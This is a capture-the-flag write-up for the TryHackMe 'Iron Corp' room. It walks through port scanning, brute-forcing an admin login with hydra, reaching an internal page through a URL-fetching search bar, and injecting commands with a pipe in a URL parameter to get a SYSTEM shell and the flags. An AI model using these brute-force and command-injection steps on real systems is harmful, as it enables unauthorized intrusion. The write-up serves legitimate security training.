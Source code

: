 ```yaml
---
title: TryHackMe Iron Corp
Categories: [TryHackMe]
tags: [windows, bruteforce, rce]
media_subpath: /images/tryhackme_ironcorp
image:
  path: room-image.jpeg
---
```


https://tryhackme.com/room/ironcorp

Add `ironcorp.me` to /etc/hosts

![etc-hosts](etc-hosts.png)

## Initial Scan

```console
$ nmap -Pn -sS -sC -sV -T4 -p- ironcorp.me
Nmap scan report for ironcorp.me (10.10.98.85)
Host is up (0.040s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-8VMBKF3G815
| Not valid before: 2025-08-07T11:30:25
|_Not valid after:  2026-02-06T11:30:25
| rdp-ntlm-info: 
|   Target_Name: WIN-8VMBKF3G815
|   NetBIOS_Domain_Name: WIN-8VMBKF3G815
|   NetBIOS_Computer_Name: WIN-8VMBKF3G815
|   DNS_Domain_Name: WIN-8VMBKF3G815
|   DNS_Computer_Name: WIN-8VMBKF3G815
|   Product_Version: 10.0.14393
|_  System_Time: 2025-08-08T11:39:02+00:00
|_ssl-date: 2025-08-08T11:39:10+00:00; -1s from scanner time.
8080/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Dashtreme Admin - Free Dashboard for Bootstrap 4 by Codervent
| http-methods: 
|_  Potentially risky methods: TRACE
11025/tcp open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.4.4)
|_http-title: Coming Soon - Start Bootstrap Theme
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.4
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration 

On main domain there weren't something useful, gouster found 2 subdomains, add `admin.ironcorp.me` and `internal.ironcorp.me` to /etc/hosts

![gobuster1](gobuster1.png)


403 Status code on internal subdomain, but if we try accessing this port with `admin` subdomain...

![internal-11025](internal-11025.png)


![admin-login](admin-login.png)


Let's bruteforce using hydra

```console
hydra -l admin -P /usr/share/wordlists/rockyou.txt admin.ironcorp.me http-get -s 11025
```

Log in using bruted password


## Initial Entry

This searchbar doesnt work with commands/finding files with just words but works if you give it url

![searchbar](searchbar.png)

Here's example what it does

![searchbar-nmap](searchbar-nmap.png)


We couldn't access `internal.ironcorp.me:11025`, we could try doing it here, there were text `You can find your name here`, copy link and paste to searchbar:

![name-php](name-php.png)


After few attempts to inject commands it is possible to run them using `|` symbol

`http://internal.ironcorp.me:11025/name.php?name=qwe|dir`

![rce](rce.png)


Now what left is catching a shell

![revshell](revshell.png)


And we already nt authority\system!

### user.txt


```console
PS C:\Users> type C:\Users\Administrator\Desktop\user.txt
thm{09[REDACTED]8c}
```

## Privilege Escalation

Here's actually nothing to do for escalation as we already admin, but to get root.txt we need access `SuperAdmin` directory

![users-dir](users-dir.png)
 

### root.txt

We don't have access to this directory, however if you try reading directly by this path you get root flag

```console
PS C:\> type C:\Users\SuperAdmin\Desktop\root.txt
thm{a1[REDACTED]bd}
```
